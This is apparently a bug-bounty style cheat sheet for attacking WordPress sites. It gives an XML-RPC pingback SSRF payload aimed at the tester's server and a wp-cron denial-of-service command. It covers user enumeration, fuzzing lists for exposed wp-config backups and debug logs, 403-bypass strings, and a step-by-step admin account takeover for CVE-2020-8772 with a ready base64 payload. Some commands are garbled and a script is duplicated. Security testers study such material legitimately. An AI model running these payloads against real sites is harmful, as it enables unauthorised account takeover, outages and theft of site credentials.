


# WordPress


Fisrt of all you need to realize is wordpress actually running or not

to know that we can use this tools:

- Wappalyzer
- WhatRuns
- BuildWith
- WhatWeb

for generally scan and knows the versions we can use the automated tools like:

- [WpScan](https://github.com/wpscanteam/wpscan)
- [WPrecon](https://github.com/blackcrw/wprecon)
- [cms-checker](https://github.com/oways/cms-checker)
- [https://wpsec.com](https://wpsec.com/)

WordPress default admin panel:

`www.example.com/wp-login.php`

Or you can directly access your admin area by entering the website URL like this:

`www.example.com/admin/`

`www.example.com/wp-admin/`

if you cant find admin panel, its look like they change the URL and you must go for fuzzing 

for finding Admin panel in WordPress 

`www.example.com/admin/`

`www.example.com/login/`

use FUZZ to this section.

**if you still cant find admin panel use path`/wp-admin/install.php`to identify the changed admin URL.

### XML-RPC

xml-RPC is a file for remote produce call (RPC) uses xml to encode data and HTTP for transform data.

xml-RPC let programmer remotely use the RPC and add or change and… some data like blog posts.

the default route for xml-rpc is [site.com/xmlrpc.php](http://site.com/xmlrpc.php).

### The affect of XML-rpc:

with xml-rpc you can do:

- Full Blown SSRF
- Blind SSRF
- Perform DDOS

all using with XML payloads

Full blown ssrf payload:

```
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
```

automated tool:[https://github.com/nullfd/xmlrpc-scan](https://github.com/nullfd/xmlrpc-scan).

### Cron-job

you can perform Denial of service with cron-job

check [site.com/wp-cron.php](http://site.com/wp-cron.php)

see a blank page with 200 status

may use doser tool to perform DOS

python3 [doser.py](http://doser.py/) -t 999 -g '[https://site.com/wp-cron.php](https://site.com/wp-cron.php)'

## **WP User Enumeration**

we have 3 way to report user enumeration in Wordpress sites:

### 1- rest endpoint Api user enumeration

you can also see users as a Json file

CVE-2017-5487

- visit site.com/wp-json/wp/v2/users/
- You will see json data with user info in response
- if you got 403 error you can use this bypass



- try `http://target.com/?rest_route=/wp/v2/users`

### 2- Author parameter User Enumeration

- /?author=1
    - `http://target.com/?author=1`
    - Increment the number to get more

### 3- the Default Admin Panel

just in admin panel login section, put some username, you can use Burp Intruder for this.

if the username you entered has an account, the panel tell us the user is exist but you may have entered wrong passwords for it; but if the username you entered doesn't have any active account,  the panel tell us that user don't exists.


### TIP:

**try user enumeration with admin panel and try login with any credentials(No Rate Limit).**

**try to find out the WordPress template of target site is generated or self designed by targeted company, if its just online public template, look for shared CVE’s for it.**

### Default WordPress Directory Listing

try to reach this paths, if the WordPress has default configuration so your able see internal files and directory's:

- /wp-content/themes/`themename`/.idea/
- /wp-content/uploads/
- /wp-includes/

### Sentivity URLs for Fuzzing

```
wp-includes
wp-content/uploads
wp-content/debug.log
Wp-load
Wp-json
index.php
wp-login.php
wp-links-opml.php
wp-activate.php
wp-blog-header.php
wp-cron.php
wp-links.php
wp-mail.php
xmlrpc.php
wp-settings.php
wp-trackback.php
wp-ajax.php
wp-admin.php
wp-config.php
.wp-config.php.swp
wp-config.inc
wp-config.old
wp-config.txt
wp-config.html
wp-config.php.bak
wp-config.php.dist
wp-config.php.inc
wp-config.php.old
wp-config.php.save
wp-config.php.swp
wp-config.php.txt
wp-config.php.zip
wp-config.php.html
wp-config.php~
/wp-admin/setup-config.php?step=1
/wp-admin/install.php
/wp-content/debug.log
/wp-admin/admin-ajax.php
/wp-admin/admin.php
```

### Enumeration Plugins

`grep all "wp-content/plugins/" from html`

you can use [https://github.com/Mad-robot/wordpress-exploits](https://github.com/Mad-robot/wordpress-exploits)

to automate exploiting 

### Bypassing 403 error

```
?
??
&
#
%
%20
%09
/
/..;/
../
..%2f
..:/
../
\..\.\
.././
..%00/
..%0d/
..%5c
..\
..%ff
%2e%2e%2e%2f
.%2e/
%3f
%26
%23
.json
```

### test for Admin Account Take Over (CVE-2020-8772)

Create the base64 code using the below JSON Payload:

- the payload you must do like this: {"iwp_action" : "add site" , "params" : {"username" : "admin"}}
- the Command you can do with bash: echo ' {"iwp_action " : "add site" , "params" : {"username" : "admin"}} '
I base64



- Refresh the WordPress site and intercept the request using Burp Suite.
- Append the base64-generated payload (that you got from the above steps) with the provided string found in the exploit URL like this:
Payload :

```jsx
_IWP_JSON_PREFIX_eyJpd3BfYWN0aW9uIjoiYWRkX3NpdGUiLCJwYXJhbXMiOnsidXNlcm5hbWUiOiJhZG1pbiJ9fQo=
```


- Right-click on Burp suite, and click on the “Change request method” to convert the request from **GET to POST**.

then forward request, you should able to view admin panel.

---

# Enumerate All Plugins and Themes

The code provided is a shell script for generating a wordlist of all the available WordPress themes and plugins. It uses the `wp-wordlist` function, which takes an argument (`plugin` or `theme`) to specify whether to generate a wordlist for plugins or themes.

Here is the code:

```bash
wp-wordlist()
{
option="$1"
if [[ "$option" == *"plugin"* ]]; then
curl -s <https://plugins.svn.wordpress.org/> | tail -n +5 | sed -e 's/<[^>]*>//g' -e 's/\\///' -e 's/ \\+//gp' | grep -v "Powered by Apache" | sort -u
elif [[ "$option" == "theme" ]]; then
curl -s <https://themes.svn.wordpress.org/> | tail -n +5 | sed -e 's/<[^>]*>//g' -e 's/\\///' -e 's/ \\+//gp' | grep -v "Powered by Apache" | sort -u
fi
}

wp-wordlist "$1"

```

To use this script, you can open a terminal and execute the following commands:

To generate a wordlist for plugins:

```bash
bash wp-wordlist.sh "plugin" > plugins.txt

```

To generate a wordlist for themes:

```bash
bash wp-wordlist.sh "theme" > themes.txt

```

You can then use the generated wordlist with a tool like `ffuf` to fuzz URLs. For example, you can fuzz the `readme.txt` file of plugins using the following command:

```bash
ffuf -u <https://site.com/wp-content/plugins/FUZZ/readme.txt> -w plugins.txt

```

Note that in the `readme.txt` file, the "Stable tag" represents the real version of the plugin.

Please make sure to replace `https://site.com` with the actual URL of the WordPress site you are testing.

Hope this helps!

`wp-wordlist()
{
option="$1"
if [[ "$option" == *"plugin"* ]]; then
curl -s [https://plugins.svn.wordpress.org/](https://plugins.svn.wordpress.org/) | tail -n +5 | sed -e 's/<[^>]*>//g' -e 's/\///' -e 's/ \+//gp' | grep -v "Powered by Apache" | sort -u
elif [[ "$option" == "theme" ]]; then
curl -s [https://themes.svn.wordpress.org/](https://themes.svn.wordpress.org/) | tail -n +5 | sed -e 's/<[^>]*>//g' -e 's/\///' -e 's/ \+//gp' | grep -v "Powered by Apache" | sort -u
fi
}`

`wp-wordlist "$1"`